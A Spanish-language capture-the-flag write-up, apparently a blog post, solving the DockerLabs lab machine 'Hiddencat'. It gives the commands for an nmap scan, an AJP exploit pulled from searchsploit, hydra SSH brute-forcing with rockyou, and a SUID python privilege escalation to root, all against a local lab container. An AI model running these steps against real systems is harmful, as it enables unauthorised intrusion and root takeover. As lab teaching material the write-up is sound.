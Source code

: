 ```yaml
---
layout: post
title: "Hiddencat"
date: 2024-10-26
 13:45:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Hiddencat </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

**1\.** Escaneamos los puertos abiertos de la maquina.

`sudo nmap -p- -T5 --open --min-rate=5000 -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/hiddencat/nmap.png){:.margin}

**2\.** Tenemos tomcat corriendo en la web, al intentar acceder nos dice acceso denegado.

`http://172.17.0.2:8080/`

![img](/notas/public/img/dockerlabs/hiddencat/80.png){:.margin}
![img](/notas/public/img/dockerlabs/hiddencat/80denied.png){:.margin}

**3\.** Buscamos si hay alguna vunerabilidad en el servidor [apache ajp](https://book.hacktricks.xyz/network-services-pentesting/8009-pentesting-apache-jserv-protocol-ajp), tenemos script en python y ruby; me hago una copia del script a mi maquina local.

`searchsploit ajp`

`searchsploit -m 48143`

![img](/notas/public/img/dockerlabs/hiddencat/searchsploit.png){:.margin}
![img](/notas/public/img/dockerlabs/hiddencat/searchsploitcopy.png){:.margin}

**4\.** Si ejecutamos nos muestra la forma de correr el sploit, nos dice que requiere de un objetivo o target; le proporcionamos la ip objetivo y nos devuelve un error.

`python3 48143.py`

`python3 48143.py 172.17.0.2`

![img](/notas/public/img/dockerlabs/hiddencat/pythonerror.png){:.margin}

**5\.** Necesitamos instalar python2 para que el script trabaje bien, luego de instalar python2 volvemos a correr el script, nos devuelve un mensaje donde se menciona a un tal Jerry, que podria ser un usuario.

`wget https://www.python.org/ftp/python/2.7.18/Python-2.7.18.tgz #instalacion de python2`

`tar -xvf Python-2.7.18.tgz`

`cd Python-2.7.18`

`./configure`

`sudo make install`

`python2.7 48143.py 172.17.0.2`

![img](/notas/public/img/dockerlabs/hiddencat/python2ok.png){:.margin}

**6\.** Hacemos fuerza bruta al ssh, obtemos la contraseña del usuario jerry ya con esto podemos acceder por el ssh.

`hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

`ssh jerry@172.17.0.2`

![img](/notas/public/img/dockerlabs/hiddencat/hydra.png){:.margin}
![img](/notas/public/img/dockerlabs/hiddencat/sshjerry.png){:.margin}

**7\.** Buscamos binarios SUID, encontramos unos cuantos binarios con este permiso activo.

`find / -perm -4000 2>/dev/null`

![img](/notas/public/img/dockerlabs/hiddencat/find.png){:.margin}

**8\.** En esta ocasion usaremos [python3.7](https://gtfobins.github.io/gtfobins/python/#suid) para escalar privilegios.

`python3.7 -c 'import os; os.execl("/bin/bash", "bash", "-p")'`

![img](/notas/public/img/dockerlabs/hiddencat/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>